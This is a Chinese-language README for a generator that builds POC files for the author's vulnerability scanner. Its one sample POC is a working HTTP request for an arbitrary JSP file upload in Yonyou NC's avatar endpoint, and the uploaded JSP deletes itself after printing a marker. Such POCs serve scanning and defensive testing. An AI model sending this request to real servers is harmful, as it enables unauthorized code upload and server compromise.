 # Hunting-Rabbit-POC-Generator

## 简介

本项目为 Hunting-Rabbit 系列项目之一 ，是Hunting-Rabbit-VulScanner 专属POC生成器，致力于最直观简洁的POC编写。

## 截图/演示

![image-20240620110948651](img/image-20240620110948651.png)

生成的POC如下：

![image-20240620111438677](img/image-20240620111438677.png)

```json
{
    "vul_name": "用友 NC avatar 任意文件上传",
    "level": "高危",
    "description": "用友 NC acatar接口存在任意文件上传漏洞，可上传恶意脚本至服务器。",
    "product": "用友 NC",
    "version": "用友 NC",
    "cve": "无",
    "reference": "https://mp.weixin.qq.com/s/SS_KVTcomHmWbP5zEvVyMw",
    "fixing": "https://blog.csdn.net/qq_36618918/article/details/137913219\n1、升级到安全版本\n 2、如非必要，禁止公网访问该系统。\n 3、设置白名单访问。",
    "rule": {
        "path": "/uapim/upload/avatar?usercode=qbll&fileType=jsp",
        "method": "GET",
        "headers": "User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36\nConnection: close\nContent-Length: 242\nAccept-Encoding: gzip, deflate, br\nContent-Type: multipart/form-data; boundary=----v6bavojmqudas7g0al2o",
        "body": "------v6bavojmqudas7g0al2o\nContent-Disposition: form-data; name=\"uploadedfile\"; filename=\"klywwjrrux.jsp\"\n\n<%out.print(\"lmnpl\");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>\n------v6bavojmqudas7g0al2o--",
        "status_code": "200",
        "keywords": "true",
        "res_time": ""
    },
    "operator": {
        "author": "浪飒",
        "email": "langsa-hy@qq.com",
        "github": "https://github.com/langsasec"
    }
}
```



## 安装和使用

1. 拉取代码：

   ```
   git clone https://github.com/langsasec/Hunting-Rabbit-POC-Generator
   ```

2. 安装依赖

   ```
   cd Hunting-Rabbit-POC-Generator && pip install -r requirements.txt
   ```

3. Python3运行

   ```
   python Hunting-Rabbit-POC-Generator.py
   ```

4. 运行后会生成config.ini配置文件，内容如下，可自行配置

   ```
   # 请勿删除此行，这是为了用户填写联系信息，你将是POC的贡献者，方便其他用户使用POC时可以互相联系，也可以不填写
   Author= 你的名字
   Email=邮箱
   GitHub=Github地址
   ```
